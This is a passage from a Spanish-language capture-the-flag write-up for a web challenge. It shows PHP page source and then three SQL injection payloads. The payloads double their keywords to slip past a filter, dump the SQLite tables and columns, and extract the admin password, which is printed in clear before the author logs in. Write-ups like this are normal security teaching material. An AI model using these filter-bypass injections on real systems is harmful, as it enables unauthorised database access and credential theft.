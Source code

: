 ```php
						echo $keys[$i++] . ' -> ' . $user . "<br />";
					} 
					?> 
				</p>
			</div>
		<?php endif; ?>
		<hr><br>
		<center><h2>Image Viewer</h1><br>
		<div id="login">
			<form class="form-signin" action="<?php basename($_SERVER['PHP_SELF']); ?>" method="post" style="border:0px;">
			<h5>Image name</h5>
			<input type="text" class="input-block-level" placeholder="misifu.jpeg" name="name" id="name" required>
			<input class="btn  btn-primary" type="submit" name='submit' value ="Submit" style='margin-top:10px;'/></center>
			</form>
		</div>
		<div class="span4"></div>
	</div>
	</div>
</body>
</html>
```

Analizando el código fuente se vió que no era posible inyectar otros folders del sistema ya que se setectaba el caracter "/", por lo que se decidió bypassear los checks existentes para realizar una inyección SQL sobre la base de datos SQLite utilizada.

Tras varias pruebas, se consiguieron bypassear las comprobaciones existentes y obtener todas las tablas existentes con la siguiente inyección:
```
cat_id=-1+UNIUNIONON+AlL+SELSELECTECT+(SELSELECTECT+tbl_name+FRFROMOM+sqlite_master+WHERE+type='table'+and+tbl_name+NOT+like+'sqlite_%'),'456'
```
Y las columnas de la tabla "CATS" con la siguiente:
```
cat_id=-1+UNIUNIONON+AlL+SELSELECTECT+(SESELECTLECT+sql+FRFROMOM+sqlite_master+WHERE+name+='CATS'+LIMIT+1),'456'
```
Con ello, procedimos a obtener la contraseña del usuario "admin" con:
```
cat_id=-1+UNIUNIONON+AlL+SELSELECTECT+(SELSELECTECT+PWD+FRFROMOM+cats+WHERE+id=1),'456'
```

![web450_1_sqli](https://user-images.githubusercontent.com/38633962/79078315-e2b55880-7d07-11ea-8b50-10489c0c8e46.png)

Puesto que no se identificó nada más relevante en la base de datos, se procedío a hacer login en "/admin.php" (identificado en "/robots.txt") con los datos obtenido ("admin/c4tH4x0r") y ver que en esta nueva parte de la web se ofrecían 3 funcionalidades más.

![web450_2_](https://user-images.githubusercontent.com/38633962/79078437-b4844880-7d08-11ea-9fed-de9138da8b0f.png)

